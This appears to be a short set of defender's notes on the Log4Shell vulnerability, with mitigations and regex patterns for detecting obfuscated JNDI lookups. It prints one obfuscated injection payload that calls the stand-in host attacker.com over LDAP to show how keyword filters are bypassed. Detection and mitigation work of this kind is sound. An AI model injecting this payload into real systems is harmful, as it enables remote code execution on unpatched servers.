 # Log4Shell notes

If you're filtering on "ldap", "jndi", or the ${lower:x} method, I have bad news for you:
```shell
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attacker.com/a}
```
This gets past every filter I've found so far. There's no shortage of these bypasses.

Block the log4j zero day...
```shell
echo "export LOG4J_FORMAT_MSG_NO_LOOKUPS=true" >> /etc/profile.d/blockzero.sh`
```
I know that using regex is dumb and shit, but it's just first-line defense. This one I made is capable to detect obfuscated payloads and should produce very few false positives:
```shell
\${(\${(.*?:|.*?:.*?:-)('|"|`)*(?1)}*|[jndi:(ldap|rm)]('|"|`)*}*){9,10}
```
Added support for LDAPS:
```shell
\${(\${(.*?:|.*?:.*?:-)('|"|`)*(?1)}*|[jndi:lapsrm]('|"|`)*}*){9,11}
```
Also, better pipe the logs through an URL decoder before running the regex

- Disable suspicious outbound traffic, such as LDAP and RMI on the server in PANW Firewall.
- Disable JNDI lookup.
- Remove the JndiLookup file in the log4j-core and restart the service.
- Setup spring.jndi.ignore=true
